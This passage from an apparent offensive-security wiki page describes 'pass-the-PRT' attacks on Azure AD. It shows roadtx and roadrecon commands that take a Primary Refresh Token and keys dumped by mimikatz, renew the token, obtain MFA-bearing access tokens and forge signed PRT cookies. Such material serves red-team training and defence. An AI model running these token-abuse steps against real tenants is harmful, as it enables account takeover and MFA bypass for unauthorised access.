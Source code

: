 * Renew the PRT first, which will save it in `roadtx.prt`:

{% code overflow="wrap" %}
```bash
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```
{% endcode %}

* Now we can **request tokens** using the interactive browser with `roadtx browserprtauth`. If we use the `roadtx describe` command, we see the access token includes an MFA claim because the PRT I used in this case also had an MFA claim.

```bash
roadtx browserprtauth
roadtx describe < .roadtools_auth
```

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

#### Option 3 - roadrecon using derived keys

Having the context and the derived key dumped by mimikatz, it's possible to use roadrecon to generate a new signed cookie with:

{% code overflow="wrap" %}
```bash
roadrecon auth --prt-cookie <cookie> --prt-context <context> --derives-key <derived key>
```
{% endcode %}

## References

* [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)
* [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)
* [https://www.youtube.com/watch?v=x609c-MUZ\_g](https://www.youtube.com/watch?v=x609c-MUZ\_g)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
